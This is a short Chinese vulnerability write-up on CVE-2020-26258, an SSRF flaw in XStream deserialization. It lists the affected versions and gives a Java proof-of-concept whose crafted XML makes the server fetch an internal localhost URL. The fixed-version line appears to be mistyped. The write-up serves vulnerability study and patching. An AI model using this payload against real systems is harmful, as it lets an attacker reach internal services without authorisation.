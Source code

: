 # XStream SSRF 反序列化漏洞 CVE-2020-26258

## 漏洞描述

Xstream 是 Java 类库，用来将对象序列化成 XML (JSON) 或反序列化为对象。XStream 是一款开源软件，允许在 BSD 许可证的许可下分发。

参考链接：

- https://raw.githubusercontent.com/jas502n/CVE-2020-26259/main/CVE_2020_26258.java

## 漏洞影响

影响版本：

```
Xstream < = 1.4.14
```

修复版本：

```
Xstream < = 1.4.15
```

## 漏洞复现

poc：

```
import com.thoughtworks.xstream.XStream;

/*
CVE-2020-26258: A Server-Side Forgery Request can be activated unmarshalling
with XStream to access data streams from an arbitrary URL referencing a resource in an intranet or the local host.
All versions until and including version 1.4.14
https://x-stream.github.io/CVE-2020-26258.html
Security framework of XStream not explicitly initialized, using predefined black list on your own risk.
*/

public class CVE_2020_26258 {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='javax.activation.URLDataSource'>\n" +
                "            <url>http://localhost:8989/internal/:</url>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```

